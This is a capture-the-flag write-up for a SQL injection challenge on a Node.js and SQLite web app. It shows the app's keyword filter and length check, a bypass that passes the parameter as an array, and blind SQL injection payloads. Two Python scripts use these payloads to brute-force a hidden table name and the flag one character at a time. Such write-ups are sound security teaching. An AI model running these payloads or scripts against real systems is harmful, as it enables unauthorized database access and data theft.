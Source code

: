 # Challenge link
URL:      [http://45.122.249.68:20020/](http://45.122.249.68:20020/) (maybe the server was shut down)

# Challenge description
Recon carefully so as not to miss anything

# Challenge source file
URL: [https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing](https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing)

# Difficulty
Not easy

# Author
dcthinh

# Approach
- SQL injection is a simple but dangerous web vulnerability so every CTF challenge I have attended has at least one. At the time I saw the challenge's name, I realized that it would be SQLi.
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/20954e6b-56c0-4cfb-96e2-a8e09c0630c6)

- I tried to click on the *Home* and *About* buttons but nothing happened. Let's try to read the source:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d38dc2a3-7d6d-4d51-93ea-37cf6012325c)

- I still see nothing there. It's time to read the source code.
- In *app.js*, I saw that they used the SQLite3 db. There's a table named API, and the flag table has a format name: "flag_" + an UUIDv4 string. More important, there is a hidden page which I found when reading this piece of code:
  ```
  app.get('/search', (req, res) => {
      const { name } = req.query;
      const Filterduidui = /(union|or|substring|substrs|if|case|=|when|then|join|load_extension|likely|unhex|\|\|)/i;
      if (!name) {
          return res.redirect('/search?name=1');
      }
  ```
- They filtered some keywords.
- Let's navigate the hidden site:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/91332e12-a283-4b6c-b2af-603f15a035d1)
  
- It is just a simple joke dispenser. According to the source code, it has 6. But it's not the problem. We need to take the flag.
- Because it is an SQLi challenge, I also tried to input something like *' and 1 is 1--* into the *name* parameter. A message appeared:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d88bfe0f-1a37-4bc0-8d4e-25b899d95200)

- That means, the input of *name* is too long, because of this:
  ```
  if (name.length > 6) {
        return res.status(400).send({ err: 'U r hacker?' });
    }
  ```
- But this site is written in JavaScript. Since the whole program did not check if the *name* parameter is a string, *what would it be if I turned it into an array?* Let's check:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/9d8f109e-c0b2-4812-9ba7-be31cc60f347)

- It worked!!! If you don't know why it worked, the reason is JavaScript determines the length of an array is the total number of elements inside it. Now I can input an arbitrary length payload.

- I tried to input something weird into the *name* parameter. The joke disappeared immediately:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/4594b0e9-ad9f-457b-83f8-0fce3510586b)
  
- At that time, I immediately claimed that I should use the Blind SQL injection technique, due to the message appearance behavior of the site. But the keywords *substring* and *substrs* were blocked.
- After an hour of thinking, I realized that SQLite uses *substr* keyword, not *substring* or *substrs*. This - is - the - keyword - to - solve - this - challenge.

# Problem-solving
  ## Database name length brute-forcing
  - I don't know the flag table name, so I have to find it. The name is randomly generated by this function:
    ```
    const flagTable = `flag_${uuid.v4().replace(/-/g, '_')}`;
    ```
  - First, I wrote a payload to determine the length of the table name (for not being time-consuming). I use Burp Suite for convenience:
    ```
    1' AND (SELECT LENGTH(name) FROM sqlite_master WHERE type is 'table' AND name LIKE 'flag_%') is 1--
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/ef581b82-f55a-4fe1-ae23-52430745bed4)
  - It worked. It's time to brute-force. I set the Grep-Match to the string *"id":1* as the clue:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/109ae2c4-fdbc-4336-8c2e-1b3b6f716f41)

  - Setup done, now attack phase:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d6e047f5-89ec-4e9f-88a4-5913046709f4)

  - The result is 41. Since the *flag_* takes 5 characters, I have to find 36 other chars.
  - I write a simple Python code for this purpose:
    ```
    import requests

    char_set = '_1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = 'flag_'
    print(flag)

    for i in range(6, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(name, {i}, 1) FROM sqlite_master WHERE type IS 'table' AND name LIKE 'flag_%') IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - The flag table name is: flag_c1abd148_acae_40be_a953_eae333f90da0
  - The remaining work is quite simple. This Python code is used to find the flag:
    ```
    import requests

    char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789	 !}_{\"\#$%&'()*+,-./:;?@[\]^`|~"
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = ''

    for i in range(1, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(flag, {i}, 1) FROM flag_c1abd148_acae_40be_a953_eae333f90da0) IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - Flag: W1{I_th1nk_u_r_so_lite^_^}


